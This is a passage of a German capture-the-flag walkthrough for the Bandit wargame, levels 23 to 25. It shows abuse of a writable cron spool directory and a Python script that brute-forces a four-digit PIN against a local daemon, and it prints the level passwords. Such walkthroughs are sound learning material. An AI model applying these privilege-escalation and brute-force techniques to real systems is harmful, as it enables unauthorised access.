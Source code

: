 Jetzt können wir unser Skript in das Verzeichnis **/var/spool/bandit24** kopieren, damit es dort von **bandit24** ausgeführt wird.

```shell
bandit23@bandit:/tmp/script$ cp givemepass.sh /var/spool/bandit24
```

Nun müssen wir nur noch warten bis der Cronjob ausgeführt wird.

```shell
bandit23@bandit:/tmp/script$ ls
givemepass.sh pass
bandit23@bandit:/tmp/script$ cat pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

## **Level 24 -> Level 25**

Wir melden uns nun als **bandit24** mit dem Passwort **UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ** an.  
Der Tipp zu diesem Level ist wie folgt:  
Ein [Daemon](https://de.wikipedia.org/wiki/Daemon) hört Port **30002** ab und gibt dir dass Passwort für **bandit25**, wenn du ihm das Passwort für **bandit24** und einen geheimen 4-stelligen Zahlencode gibst. Es gibt keinen anderen Weg, als alle der 10000 Möglichkeiten des Zahlencodes durchzugehen. Ein selbstgeschriebenes Skript kann dir dabei helfen. Dies nennt man [Brute-Forcing](https://de.wikipedia.org/wiki/Brute-Force-Methode).

In diesem Level müssen wir ein kleines Brute-Force Skript erstellen. Ich habe Python dafür benutzt.

```shell
bandit24@bandit:~$ mkdir /tmp/brute
bandit24@bandit:~$ cd /tmp/brute
bandit24@bandit:/tmp/brute$ vi brute.py
```

```python
import socket
pin = 0
passwd = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002))
s.recv(1024)
while (pin < 10000):
   print '[+] Versuche: ' + str(pin)
   s.sendall(passwd + str(pin) + '\n')
   data = s.recv(1024)
   print data
   pin += 1
```

```shell
bandit24@bandit:/tmp/brute$ python brute.py
[...]
[+] Versuche: 5440
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
